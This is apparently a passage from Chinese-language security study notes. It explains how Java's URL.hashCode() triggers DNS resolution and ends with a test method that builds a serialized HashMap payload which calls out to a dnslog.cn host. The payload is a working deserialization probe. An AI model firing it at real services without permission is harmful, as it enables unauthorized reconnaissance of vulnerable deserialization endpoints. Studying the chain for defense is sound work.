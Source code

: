### 5.3 `URL` 类中的 `hashCode()`

1. > https://www.bilibili.com/video/BV16h411z7o9/?spm_id_from=333.999.0.0&vd_source=93978f7f30465e9813a89cdacc505a92
    > 最先找 web 中是否存在 rce，没有 rce 退一步找 ssrf，然后在浏览 `URL` 类中找到了它的 `hashCode()` 方法，同时 `URL` 类实现了 `Serializable` 接口

2. 审计 `URL.hashCode()`：
    ![image-20230411214449208](image-20230411214449208.png)

3. 跟进 `handler.hashCode()`：
    ![image-20230411214529841](image-20230411214529841.png)
    在 `URLStreamHandler` 中，其 `hashCode()` 方法调用了 `getHostAddress()`。

4. `getHostAddress()`，一路跟下去，发现它会根据域名获取 IP 地址，此时必定会向指定的 URL 发送 DNS 请求。

### 5.4 整合并构造链

1. `HashMap<>` 中放 `URL`。

2. 想要反序列化时触发 `URL.hashCode()`，必须要求其属性 `hashCode` 为 -1。

3. 需要注意的一点是，调用 `HashMap.put()` 时，其会调用一次 `hashCode()`：
    ![image-20230411220024721](image-20230411220024721.png)
    **如果在其插入之前没有通过反射把属性 `hashCode` 重置为非 -1 的话（默认刚创建时为 -1)**，那么其会在 `put()` 插入时发起 DNS 请求。

4. 在序列化时还得将其改成 -1。否则反序列化时，由于其 `hashCode` 不是 -1，从而不会发起 DNS 请求，这和实际要求截然相反。

5. 结合上述四点，构造 payload。
    ```java
    @Test
    public void testDNSLog() throws MalformedURLException, NoSuchFieldException, IllegalAccessExcept
        HashMap<URL, Integer> hashMap = new HashMap<URL, Integer>();
        // 1. 创建 URL，其访问地址为 burp 生成的用于检测 DNSLog 的，当然 dnslog 也行
        URL url = new URL("http://apcv57.dnslog.cn/");
    
        // 2. 在 put 前通过反射将键为 url 的 hashCode 改成 -1
        Class<? extends URL> urlClass = url.getClass();
        // 获取对象内的属性
        Field hashCode = urlClass.getDeclaredField("hashCode");
        // 忽略其安全限制（无效化 private、protected 关键字）
        hashCode.setAccessible(true);
        // put 前改为非 -1，为了防止下面 put 时发出一次 DNS 请求从而干扰结果
        hashCode.setInt(url, 1);
    
        // 3. 塞进去
        hashMap.put(url, 10);
        // 4. 序列化前改回 -1
        hashCode.setInt(url, -1);
        // 5. 序列化
        String serialize = serialize(hashMap);
        unSerialize(serialize);
    }
    ```
